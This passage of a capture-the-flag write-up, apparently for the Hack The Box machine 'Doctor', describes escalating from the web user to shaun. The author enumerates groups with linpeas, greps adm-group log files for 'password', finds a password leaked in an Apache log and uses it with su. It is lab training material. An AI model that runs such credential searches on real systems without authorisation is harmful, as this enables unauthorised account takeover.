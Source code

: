 ## Privesc: `web` to `shaun`

Started running linpeas in the background for some automated enumeration. The first thing I noticed was that the `web` user was in a group called `adm`.

```none
User & Groups: uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

There are a few users in the box with a shell, but it seems like elevating to `shaun` would be the most likely next step. Mainly because `shaun` has the user flag in their home directory.

```none
[+] Users with console
root:x:0:0:root:/root:/bin/bash
shaun:x:1002:1002:shaun,,,:/home/shaun:/bin/bash
splunk:x:1003:1003:Splunk Server:/opt/splunkforwarder:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash
```

I tried dumping the Splunkd password file, but we do not have access.

```none
cat /opt/splunkforwarder/etc/passwd
cat: /opt/splunkforwarder/etc/passwd: Permission denied
```

I didn't find much else in the linpeas output. So I started to look at all the files that have `adm` as the group.

```none
# Find all files with adm group ownership
find / -group adm 2>/dev/null
# Exclude files in /proc
find / -group adm 2>/dev/null | grep -v proc
```

There were a bunch of log files in the results. I stated doing some more searching for some keywords such as `shaun` and `password`.

```none
find / -group adm -exec grep 'shaun' {} \; 2>/dev/null
find / -group adm -exec grep 'password' {} \; 2>/dev/null
```

After a while I found that the `/var/log/apache2/backup` file has an interesting entry from a user who attempted to reset their password. Looks like the user entered their password into the form, instead of their email!

```none
/var/log/apache2/backup:74:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

With this password, tried switching to the `shaun` user.

```none
web@doctor:~$ su - shaun
su - shaun
Password: Guitar123
id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
wc -c /home/shaun/user.txt
33 /home/shaun/user.txt
```
